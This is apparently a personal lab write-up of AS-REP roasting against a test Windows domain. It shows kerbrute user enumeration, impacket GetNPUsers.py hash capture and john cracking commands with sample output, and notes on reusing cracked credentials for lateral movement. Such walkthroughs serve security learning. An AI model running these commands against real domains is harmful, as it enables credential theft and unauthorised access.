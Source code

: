 # 🔐 AS-REP Roasting & Kerberos Enumeration - 2025-04-24

**Target:** 192.168.1.2 (Windows Server 2025)  
**Domain:** narnia.com  
**Attacker:** Kali Linux (192.168.1.10)  
**Tools:** kerbrute, impacket (GetNPUsers.py)

---

## 🎯 Objective
- Enumerate valid domain users
- Identify accounts with Kerberos pre-auth disabled
- Capture AS-REP hashes for offline cracking

---

## 🧪 Step 1: Enumerating Users via Kerbrute

**Command:**
```bash
kerbrute userenum --dc 192.168.1.2 -d narnia.com usernames.txt
Output:

pgsql
Copy
Edit
[*] Valid user found: administrator@narnia.com
[*] Valid user found: jdoe@narnia.com
✅ Found valid domain users

🔍 Step 2: AS-REP Roasting via Impacket
Command:

bash
Copy
Edit
cd ~/impacket/examples
python3 GetNPUsers.py -dc-ip 192.168.1.2 narnia.com/ -usersfile usernames.txt -no-pass
Output (sample):

bash
Copy
Edit
$krb5asrep$23$administrator@narnia.com:...<HASH_SNIPPED>...
✅ Extracted AS-REP hash for offline cracking

🧨 Step 3: Crack the Hash (Next Step)
Command:

bash
Copy
Edit
john --wordlist=/usr/share/wordlists/rockyou.txt hashfile
🔄 Cracking in progress…

📝 Notes
AS-REP roasting only works if pre-auth is disabled

Hashes can be cracked offline to retrieve cleartext passwords

Credentials can be reused for SMB, WinRM, or lateral movement

✅ Summary

Task	Status
User enum with Kerbrute	✅
AS-REP hash retrieved	✅
Hash cracking	🔄 Pending
🧪 Next action: Crack and test credentials via evil-winrm


